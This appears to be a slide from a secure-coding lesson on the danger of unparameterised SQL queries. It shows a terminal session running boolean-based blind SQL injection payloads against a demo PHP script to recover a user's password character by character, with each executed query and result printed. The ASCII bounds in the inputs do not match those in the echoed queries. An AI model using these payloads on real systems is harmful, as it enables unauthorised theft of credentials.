

# Anti-pattern: Not parameterising queries
% # boolean-based character-by-character binary search

% php query_users_by_name_unsafe.php "sally' AND ascii(substring((SELECT password FROM users WHERE name = 'yusuf') from 1 for 1)) BETWEEN 33 and 122;-- -"	# first char of yusuf's password is between <space> and ~
Executing: SELECT name, cellnum FROM users WHERE name like '%sally' AND ascii(substring((SELECT password FROM users WHERE name = 'yusuf') from 1 for 1)) BETWEEN 32 and 126;-- -%'
Name: sally, Cell: 559-575-1337

% php query_users_by_name_unsafe.php "sally' AND ascii(substring((SELECT password FROM users WHERE name = 'yusuf') from 1 for 1)) BETWEEN 33 and 77;-- -"	 # first char of yusuf's password is not between <space> and M
Executing: SELECT name, cellnum FROM users WHERE name like '%sally' AND ascii(substring((SELECT password FROM users WHERE name = 'yusuf') from 1 for 1)) BETWEEN 32 and 77;-- -%'
No results found.

% php query_users_by_name_unsafe.php "sally' AND ascii(substring((SELECT password FROM users WHERE name = 'yusuf') from 1 for 1)) BETWEEN 78 and 122;-- -"	# first char of yusuf's password is between N and ~
Executing: SELECT name, cellnum FROM users WHERE name like '%sally' AND ascii(substring((SELECT password FROM users WHERE name = 'yusuf') from 1 for 1)) BETWEEN 78 and 126;-- -%'
Name: sally, Cell: 559-575-1337

[...]

% php query_users_by_name_unsafe.php "sally' AND substring((SELECT password FROM users WHERE name = 'yusuf') from 1 for 1) = 'c';-- -"			# first char of yusuf's password is 'c'
Executing: SELECT name, cellnum FROM users WHERE name like '%sally' AND substring((SELECT password FROM users WHERE name = 'yusuf') from 1 for 1) = 'c';-- -%'
Name: sally, Cell: 559-575-1337